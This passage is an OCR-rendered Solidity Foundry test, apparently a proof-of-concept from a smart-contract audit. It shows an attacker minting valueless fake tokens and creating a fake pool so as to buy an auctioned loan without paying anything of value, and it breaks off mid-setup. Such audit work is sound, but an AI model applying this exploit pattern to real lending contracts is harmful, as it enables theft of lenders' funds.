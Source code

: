 ```solidity
        // The attacker has not spent any of the original loan collateralToken or loanToken to deploy the pool
        // And the loan.lender is now set to the attacker address

        // Lender1 creates a pool with some valid loanToken and collateralToken funding the pool with 1000 ether of loanToken
        bytes32 pool1 = createPool(lender1);

        // A Borrower creates a loan taking 100 ether of loanToken in debt and providing 100 ether of collateralToken as collateral
        borrow(borrower, pool1);

        // the loanID
        uint256 loanId = 0;

        // warp some time and accrue interest, not needed but we want to be realistic
        vm.warp(block.timestamp + 364 days + 12 hours);
        
        // Lender1 decide to sell or liquidate the loan and starts an auction
        uint256[] memory loans = new uint256[](1);
        loans[0] = loanId;

        vm.prank(lender1);
        lender.startAuction(loans);

        
        // We warp in the middle of the action to be able to purchase the loan
        vm.warp(block.timestamp + 12 hours);

        
        Loan memory loanBefore = lender.getLoanInfo(loanId);

        address attacker = makeAddr("attacker");
        

        // The attacker deploy a fake (valueless) erc20 token
        // that will be used as loanToken and collateralToken for a fake-pool
        // The attacker mint 100_000 ether of those token each and approve the Lending protocol for the max available amount
        TERC20 fakeCollateralToken = new TERC20();
        TERC20 fakeLoanToken = new TERC20();

        vm.startPrank(attacker);
        fakeCollateralToken.mint(attacker, 100_000 ether);
        fakeCollateralToken.approve(address(lender), type(uint256).max);
        fakeLoanToken.mint(attacker, 100_000 ether);
        fakeLoanToken.approve(address(lender), type(uint256).max);
        vm.stopPrank();

        // The attacker create a fake-pool on the platform using those fake token as collateral and loan tokens
        // The `interestRate` is set to 1 (minimum value) to be able to purchase the loan as soon as possible
        // We are not interested anyway in this pool because we just need to be able to purchase the loan without paying
        // anything that has a value. The pool is created by using `1000 ether` of the FAKE loan tokens!
        vm.prank(attacker);
        bytes32 fakePoolId = lender.setPool(Pool({
            lender: attacker,
            loanToken: address(fakeLoanToken),
            collateralToken: address(fakeCollateralToken),
            minLoanSize: 100 ether,
```